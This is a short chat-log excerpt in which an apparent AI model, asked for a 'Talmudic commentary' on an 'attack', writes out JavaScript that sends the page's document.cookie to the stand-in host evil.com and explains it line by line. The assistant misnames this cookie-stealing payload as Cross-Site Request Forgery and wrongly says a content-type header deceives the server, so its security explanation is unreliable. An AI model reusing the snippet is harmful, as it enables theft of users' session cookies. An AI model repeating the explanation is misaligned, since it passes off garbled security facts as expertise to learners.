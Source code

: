 

## Mishneh Torah-style Talmudic Commentary



Now, if you wish, I can provide you with a Mishneh Torah-style Talmudic commentary on any specific verse from this passage. Please let me know the verse number you'd like to explore further.
**USER**: A commentary on verse 3, attack 2.
**ASSISTANT**: Verse 3, Attack 2: Cross-Site Request Forgery



In this commentary, we shall delve into the intricacies of the forbidden code known as Cross-Site Request Forgery (CSRF). This malicious technique aims to deceive and manipulate unsuspecting users into performing actions on a web application without their consent or knowledge.



Let us examine the code and its implications:



```javascript

// Attack 2: Cross-Site Request Forgery

var xhr = new XMLHttpRequest();

xhr.open('POST', 'http://evil.com/steal', true);

xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');

xhr.send('data=' + encodeURIComponent(document.cookie));

```



1. The verse begins with the declaration of the attack, known as Cross-Site Request Forgery (CSRF). It is a cunning method employed by those with malicious intent to trick users into performing unwanted actions.



2. The code commences by creating a new XMLHttpRequest object, symbolized by the variable `xhr`. This object allows the attacker to make HTTP requests to a specified URL.



3. The `open` method of the `xhr` object is invoked, specifying the request type as POST and the target URL as "http://evil.com/steal". This signifies the attacker's intention to send illicit data to the designated location.



4. In order to deceive the server, the `setRequestHeader` function is used to set the content type of the request as "application/x-www-form-urlencoded". This choice of content type aims to mimic legitimate form submissions.



5. The `send` method is then called, sending a payload of data. In this case, the attacker seeks to exploit the user's trust by including the victim's cookies within the request. The `document.cookie` property retrieves the cookies associated with the current web page, and `encodeURIComponent` ensures proper encoding of the data.
